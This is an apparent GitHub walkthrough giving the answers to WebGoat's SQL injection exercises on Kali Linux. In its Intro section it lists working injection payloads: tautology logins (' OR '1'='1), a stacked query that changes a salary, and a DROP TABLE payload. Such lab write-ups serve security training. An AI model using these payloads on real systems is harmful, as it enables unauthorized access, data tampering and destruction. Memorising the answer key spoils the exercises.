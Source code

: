 # A1 Injection

This page will tell you how to get set up these excercises and the right answers to complete them. The following results are achieved while working on Kali Linux 2021.3 installed using [this guide](https://github.com/tonikerttula/APE/blob/main/Kali.md) and WebGoat 8.0.0.M26 installed using [this guide.](https://github.com/tonikerttula/APE/blob/main/webgoat.md)

All exercises are working without problems, if installation guides were followed properly. Ahead will be the guide how to complete the exercises, so try yourself first before looking!

Another great place for practicing SQL Injection is in SQL ZOO! (https://sqlzoo.net/wiki/SQL_Tutorial) 


### Intro

2. __SQL query:__ SELECT department FROM employees WHERE first_name='Bob'
3. __SQL query:__ UPDATE employees SET department='Sales' WHERE first_name='Tobi'
4. __SQL query:__ ALTER TABLE employees ADD phone varchar(20)
5. __SQL query:__ GRANT ALTER TABLE TO UnauthorizedUser
9. __SELECT * FROM users_data FIRST_NAME = 'John' and Last_NAME = '__ ' + or + '1'='1
10. __Login_count:__ 0    __User_Id:__ 0 OR 1=1
11. __Employee Name:__ A    __Authentication TAN:__ ' OR '1' = '1
12. __Employee Name:__ A    __Authentication TAN:__ '; UPDATE employees SET salary=99999 WHERE first_name='John
13. __Action contains:__ %'; DROP TABLE access_log;--


### Advanced
Tested, excercises 3 and 6 are working without problems. They are just waiting to be solved. Excersise n.5 needs a little more checking for multiple completion methods.

### Mitigation
Tested excersises 5 and 6, they are working without problems. I couldn't solve excercise 10 yet, so I haven't tested it.
